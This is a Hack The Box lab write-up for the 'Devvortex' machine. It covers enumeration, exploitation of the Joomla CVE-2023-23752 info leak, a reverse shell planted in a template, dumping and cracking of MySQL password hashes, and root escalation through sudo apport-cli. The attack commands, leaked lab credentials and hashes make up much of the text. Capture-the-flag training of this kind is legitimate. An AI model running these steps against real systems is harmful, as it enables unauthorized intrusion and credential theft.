







# Devvortex - Easy

Target IP: **10.129.73.218**

## User Flag

Initial scan: ```sudo nmap -sC -sV -Pn -p- 10.129.73.218 -v```

Output shows standard port 22 and port 80 running Nginx 1.18.0.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add ```devvortex.htb``` to our ```/etc/hosts``` file and navigate to it.

We are greeted with this home page.



It mostly seems like a static page without any exploitable functionalities.

Let's perform additional enumeration.

Subdomain enumeration gets us a single hit, ```dev```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ccbb56jlk9]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 62ms]
:: Progress: [4989/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

Let's add it to our ```/etc/hosts``` file and navigate to it.

This also seems to be a static page.



Directory enumeration on this subdomain gets us back a few interesting results.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ccbb56jlk9]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://dev.devvortex.htb/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://dev.devvortex.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

administrator           [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
api                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
cache                   [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
components              [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 10ms]
home                    [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 1307ms]
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 38ms]
includes                [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
index.php               [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 1312ms]
language                [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
layouts                 [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
libraries               [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
media                   [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
modules                 [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
plugins                 [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
robots.txt              [Status: 200, Size: 764, Words: 78, Lines: 30, Duration: 7ms]
templates               [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
tmp                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 6ms]
:: Progress: [4750/4750] :: Job [1/1] :: 31 req/sec :: Duration: [0:02:26] :: Errors: 0 ::
```

Most of these entries in included in ```robots.txt``` also.

It mentions a Joomla installation.



```/administrator``` seems the most interesting, perhaps a login page. 

Let's navigate. It indeed is an admin login page to Joomla.



We can check the version at ```/README.txt```. It seems to be Joomla 4.2.



Looking for public vulnerabilities, it tells us that Joomla 4.2 is vulnerable to CVE-2023-23752, an authentication bypass vulnerability.

Let's try this [PoC](https://github.com/Acceis/exploit-CVE-2023-23752).

Running the exploit, we get back a set of credentials.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ccbb56jlk9]─[~/exploit-CVE-2023-23752]
└──╼ [★]$ ruby exploit.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

Let's try logging in.

It works!



Under the System tab, we can edit an administrator template add reverse shell code in an existing php file. Let's change ```error.php```.



We can now navigate to the edited site, and we get a shell back as ```www-data```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ccbb56jlk9]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.73.218 50102
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 15:41:35 up 42 min,  0 users,  load average: 0.00, 0.02, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We are looking to get access to the ```logan``` user.

```
www-data@devvortex:/$ cd /home
www-data@devvortex:/home$ ls
logan
```

We can use the credentials we got for ```lewis``` to access the database.

```
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5957
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

No entry for terminal type "export";
using dumb terminal settings.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

The ```joomla``` database seems like what we are looking for.

```
mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.01 sec)
```

There are a lot of tables, but the user related ones are probably what we want.

```
mysql> SHOW TABLES;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)
```

Indeed, we get a password hash for ```logan```.

```
mysql> SELECT * FROM sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2026-10-02 15:31:24 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```

Let's transfer this to our attack box and crack it. From the ```$2y$10$```, we know that this is a bcrypt hash.

We successfully crack the hash with hashcat.

```
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

Let's switch users now.

We are successful in authenticating as ```logan```.

```
www-data@devvortex:~/dev.devvortex.htb$ su - logan
Password: 
logan@devvortex:~$ whoami
logan
```

We can proceed to get the user flag from here.

## Root Flag

We can run ```/usr/bin/apport-cli``` as ```root```

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

This binary is listed on GTFOBins. Let's follow the steps.

This is a command to view a report through ```less```

```
This function can be performed by any unprivileged user.

apport-cli -f
1
2
v
```

Since ```less``` is ran as ```root```, we can exploit this by simply spawning a shell inside of the ```less``` view of the report.

```
logan@devvortex:~$ sudo apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue... 

.dpkg-query: no packages found matching xorg
...............

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/home/logan# whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
